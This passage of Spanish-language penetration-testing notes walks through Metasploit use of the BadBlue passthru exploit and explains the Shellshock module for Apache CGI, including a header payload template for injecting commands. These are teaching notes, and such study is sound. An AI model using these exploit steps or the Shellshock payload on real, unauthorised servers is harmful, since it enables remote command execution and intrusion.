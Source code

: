 					1. Abrir Metasploit y buscar el módulo:
					   
					    `msfconsole`
					    
					    Luego, buscar el módulo:
					   
					    `search badblue_passthru`
					    
					2. Seleccionar el módulo:
					    
					    `use exploit/windows/http/badblue_passthru`
					    
					3. Configurar los parámetros necesarios:
					    
					    - **RHOST**: La dirección IP del servidor donde se ejecuta BadBlue.
					    - **RPORT**: El puerto en el que está corriendo el servidor (por defecto, 80).
					    - **CMD**: El comando que deseas ejecutar en la máquina de la víctima.
					    
					    Ejemplo:
					      `set RHOST 192.168.1.100 set RPORT 80 set CMD ipconfig`
					    
					4. Ejecutar el exploit:
					      
					    `exploit`
		- **Modulo para shellshock
			- El módulo **`apache_mod_cgi_bash_env_exec`** es un exploit que se utiliza para aprovechar la vulnerabilidad **Shellshock** (CVE-2014-6271), en servidores Apache que ejecutan scripts **CGI**. Esta vulnerabilidad afecta al shell **Bash**, permitiendo a un atacante remoto ejecutar comandos arbitrarios en servidores que no han aplicado el parche de seguridad.
			- ### Contexto de la vulnerabilidad Shellshock

				- Shellshock es una vulnerabilidad que permite la ejecución de código remoto en servidores que usan Bash para manejar variables de entorno, como es el caso de scripts CGI (Common Gateway Interface). Los scripts CGI son programas que los servidores web ejecutan para generar contenido dinámico, y muchas veces interactúan con el sistema operativo mediante Bash, lo que hace que estos scripts sean un vector de ataque para Shellshock.
				
				- El exploit **`apache_mod_cgi_bash_env_exec`** aprovecha esta vulnerabilidad en servidores que tienen habilitado el módulo **mod_cgi** de Apache para ejecutar scripts CGI.
			- ### ¿Cómo funciona el exploit?
				
				- Este módulo de exploit se encuentra en plataformas como **Metasploit** y aprovecha la vulnerabilidad Shellshock para ejecutar comandos en un servidor Apache que ejecuta scripts CGI vulnerables. A continuación se describe cómo opera:
				
				1. **Carga del exploit**: El atacante utiliza el módulo `apache_mod_cgi_bash_env_exec` de Metasploit para atacar un servidor que ejecuta scripts CGI vulnerables. El ataque se lanza a través de una solicitud HTTP.
				    
				2. **Envío de la carga maliciosa (payload)**: El exploit inyecta un payload en las cabeceras HTTP que envía al servidor objetivo. El payload se inserta en variables de entorno (como `User-Agent` o `Referer`), que luego son procesadas por Bash. Un ejemplo típico de payload es:
				    
				    `() { :; }; <comando-malicioso>`
				    
				    El exploit inserta comandos arbitrarios que se ejecutarán si el servidor Bash es vulnerable.
				    
				3. **Ejecución del comando**: Si el servidor es vulnerable, Bash ejecutará el código malicioso que fue inyectado en la cabecera HTTP. Esto permite que el atacante ejecute comandos en el servidor de forma remota, logrando acceso o control sobre el sistema.
				    